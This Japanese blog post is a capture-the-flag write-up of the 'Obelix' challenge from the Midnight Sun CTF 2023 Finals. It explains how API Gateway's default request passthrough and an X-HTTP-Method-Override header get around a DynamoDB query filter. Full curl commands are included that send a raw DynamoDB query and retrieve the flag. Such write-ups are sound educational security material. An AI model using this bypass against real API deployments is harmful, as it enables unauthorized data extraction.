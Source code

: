 ```yaml
---
title: "Midnight Sun CTF 2023 Finals"
date: 2023-09-03T00:00:00Z
type: post
---
```


Midnight Sun CTF 2023 の Finals に参加してきました。

ストックホルムに行ったので色々と観光して回ったのですが、それはまた気分が乗ったら書こうと思います。

総じて楽しい CTF だったのですが、Web カテゴリの問題で「Obelix」という問題が面白かったので紹介します。

問題内容としては以下の CloudFormation のファイルが配布されて、DynamoDB からフラグを取ってこいというもの。

配布ファイル: <https://gist.github.com/tyage/cf1d2221720776ce3c5562e14189b732>

ファイルからは DynamoDB のテーブル定義の他、DynamoDB にクエリを投げることのできる API Gateway が確認できます。

外部からアクセスできる API としては `/prod/movies/:moviename` でアクセスできる `MovieNameMethodGet` がありますが、DynamoDB に送信するクエリを定義した RequestTemplates には FLAG の一部である「midnight」を含むデータが出力されないようなフィルターが設定されています。

```yaml
MovieNameMethodGet:
  Type: "AWS::ApiGateway::Method"
  Properties:
    RestApiId: !Ref Api
    ResourceId: !Ref MovieNameResource
    HttpMethod: GET
    ApiKeyRequired: false
    AuthorizationType: NONE
    RequestParameters:
      method.request.path.moviename: true
    Integration:
      Type: AWS
      Credentials: !GetAtt APIGatewayRole.Arn
      IntegrationHttpMethod: POST
      Uri: !Sub "arn:aws:apigateway:${AWS::Region}:dynamodb:action/Query"
      RequestParameters:
        integration.request.path.moviename: method.request.path.moviename
      RequestTemplates:
        application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
      IntegrationResponses:
        - StatusCode: "200"
          ResponseParameters:
            method.response.header.Access-Control-Allow-Methods: "'GET,OPTIONS'"
            method.response.header.Access-Control-Allow-Origin: "'*'"
    MethodResponses:
      - StatusCode: "200"
        ResponseParameters:
          method.response.header.Access-Control-Allow-Methods: false
          method.response.header.Access-Control-Allow-Origin: false
```

そのため、API を叩いて見ても FLAG らしい文字列は出力されません。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers

{"Count":1,"Items":[{"director":{"S":"Iain Softley"},"moviename":{"S":"hackers"},"image":{"S":"https://static.wikia.nocookie.net/soundeffects/images/b/b6/Hackers_%281995%29.jpg/revision/latest?cb=20200220043404"},"movielength":{"S":"107"},"posterpos":{"S":"0% 21%"},"year":{"S":"1995"},"description":{"S":"In 1988, Dade 'Zero Cool' Murphy (age 11) is arrested and charged with crashing 1,507 systems in one day and causing a single-day 7-point drop in the New York Stock Exchange. Upon conviction, he is banned from owning or operating computers or touch-tone telephones until his 18th birthday."},"id":{"S":"J0C63G8DCYcF6MA="},"color":{"S":"#a50000b3"}}],"ScannedCount":2}
```

この時点で API Gateway をよく知っている人なら問題に気づくのかなとも思うのですが、私はよく分からなかったのでとりあえずデプロイして試してみることにしました。
API Gateway の `MovieNameMethodGet` リソースの Integration Request セクションを眺めてみたところ、`All request bodies will be passed through to the integration endpoint.` という警告が表示されていることに気づきました。

![screenshot1.png](./screenshot1.png)

要は、テンプレートで定義されていない Content-Type のリクエストが送信されると、リクエストがそのまま DynamoDB に送信されてしまうようなのです。
また、画面上では警告しているものの、この設定はデフォルトの設定なので CloudFormation ファイル上には関連する内容の記載がありません。

[Integration passthrough behaviors - Amazon API Gateway](https://docs.aws.amazon.com/apigateway/latest/developerguide/integration-passthrough-behaviors.html)

今回は `application/json` 以外の Content-Type が利用できるので、`Content-Type: text/json` を設定することで任意のクエリを DynamoDB 送りつけることが可能です。

ここまでくればほぼ解けたようなものなのですがもう少しだけやることがあります。
`MovieNameMethodGet` は GET メソッドしか受け付けていないため、GET のままリクエストボディを設定する必要があるのですが、素直にそれをやると怒られてしまいます。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -X GET -H 'Content-Type: text/json'  --data '{}'

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML><HEAD><META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=iso-8859-1">
<TITLE>ERROR: The request could not be satisfied</TITLE>
</HEAD><BODY>
<H1>403 ERROR</H1>
<H2>The request could not be satisfied.</H2>
...
```

こういったときは `X-HTTP-Method-Override` が便利ですよね。
(あのヘッダの名前なんだったっけな～と思い出そうとしていたら icchy がシュッと答えてくれた。)
これで CloudFront に怒られずにリクエストボディを設定することができ、無事に FLAG を得ることができました。

```bash
$ curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'

{"Count":2,"Items":[{"director":{"S":"Iain Softley"},"moviename":{"S":"hackers"},"image":{"S":"https://static.wikia.nocookie.net/soundeffects/images/b/b6/Hackers_%281995%29.jpg/revision/latest?cb=20200220043404"},"movielength":{"S":"107"},"posterpos":{"S":"0% 21%"},"year":{"S":"1995"},"description":{"S":"In 1988, Dade 'Zero Cool' Murphy (age 11) is arrested and charged with crashing 1,507 systems in one day and causing a single-day 7-point drop in the New York Stock Exchange. Upon conviction, he is banned from owning or operating computers or touch-tone telephones until his 18th birthday."},"id":{"S":"J0C63G8DCYcF6MA="},"color":{"S":"#a50000b3"}},{"director":{"S":"avlidienbrunn"},"moviename":{"S":"hackers"},"image":{"S":"avlidienbrunn"},"movielength":{"S":"1337"},"posterpos":{"S":"0% 0%"},"year":{"S":"1337"},"description":{"S":"midnight{wh4t_t3h_fr1CK_h0w_d1d_j00_r33d_th@t_1_HaD_a_fILTer???}"},"id":{"S":"J0C69FonCYcFlNA="},"color":{"S":"#ffffff"}}],"ScannedCount":2}
```

FLAG: `midnight{wh4t_t3h_fr1CK_h0w_d1d_j00_r33d_th@t_1_HaD_a_fILTer???}`

API Gateway をフィルタ代わりに利用するとこういう問題が起きるというのは知らなかったので素直に勉強になりました。

ちなみにこの問題はなかなか解くチームが現れず、しばらく誰も解けなかったらヒントが出されると予告されていたのですが、ヒントが出される前に一番乗りで解くことができたのでよかったです。
(最終的に解けたのは 15 チーム中 3 チームでした。)
